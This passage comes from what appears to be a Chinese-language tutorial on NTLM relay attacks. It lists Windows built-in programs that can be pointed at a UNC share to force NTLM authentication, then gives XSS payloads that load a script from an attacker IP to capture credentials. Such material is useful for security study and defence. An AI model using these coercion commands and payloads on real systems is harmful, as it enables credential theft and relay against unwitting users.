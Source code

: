```cmd
> fontview.exe \hostshare #(noisy, pops an error dialog)  
> fvenotify.exe \hostshare #(noisy, pops an access denied error)  
> FXSCOVER.exe \hostshare #(noisy, pops GUI)  
> hwrcomp.exe -check \hostshare  
> hwrreg.exe \hostshare  
> icacls.exe \hostshare   
> licensingdiag.exe -cab \hostshare  
> lodctr.exe \hostshare  
> lpksetup.exe /p \hostshare /s  
> makecab.exe \hostshare  
> msiexec.exe /update \hostshare /quiet  
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
> mspaint.exe \hostshare #(noisy, invalid path to png error)  
> msra.exe /openfile \hostshare #(noisy, error)  
> mstsc.exe \hostshare #(noisy, error)  
> netcfg.exe -l \hostshare -c p -i foo 
```



## 0x03 XSS

利用xss构造

```HTML
<script src="\\172.16.100.1\xss">
```



![image-20191120204210564](img/NTLM_RELAY_1_ANQUANKE/image-20191120204210564.png)

这种情况适用于IE和edge，其他浏览器不允许从http域跨到file域，以chrome为例

![image-20191121105038929](img/NTLM_RELAY_1_ANQUANKE/image-20191121105038929.png)

我们接下来尝试不通过UNC路径，就xss里面访问http请求来发起认证

把payload 改成

```HTLM
<script src="//172.16.100.1/x">
```
